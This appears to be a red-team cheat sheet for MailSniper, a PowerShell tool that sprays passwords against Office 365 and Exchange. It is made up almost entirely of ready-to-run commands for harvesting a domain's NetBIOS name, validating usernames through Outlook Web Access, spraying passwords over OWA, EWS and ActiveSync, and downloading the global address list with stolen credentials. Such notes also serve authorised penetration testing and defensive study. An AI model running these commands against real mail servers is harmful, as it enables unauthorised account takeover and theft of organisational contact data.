 [MailSniper](https://github.com/dafthack/MailSniper) is a password spraying tool against Office 365 and Exchange.

## Usage

---

### Import PS Script

``` powershell
ipmo C:\Tools\MailSniper\MailSniper.ps1
```

### Invoke-DomainHarvestOWA

Enumerates NetBIOS name.

``` powershell
powershell Invoke-DomainHarvestOWA -ExchHostname <domain>
```

### Invoke-UsernameHarvestOWA

Validates valid usernames.

``` powershell
powershell Invoke-UsernameHarvestOWA -ExchHostname <exchange_hostname> -Domain <domain> -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
```

### Invoke-PasswordSprayOWA

Spray passwords against the valid accounts using Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS)

``` powershell
powershell Invoke-PasswordSprayOWA -ExchHostname <exchange_hostname> -UserList .\Desktop\valid.txt -Password <password>
```

### Get-GlobalAddressList

Download the global address list with valid credentials

``` powershell
powershell Get-GlobalAddressList -ExchHostname <exchange_hostname> -UserName <domain>\<username> -Password <password> -OutFile .\Desktop\gal.txt
```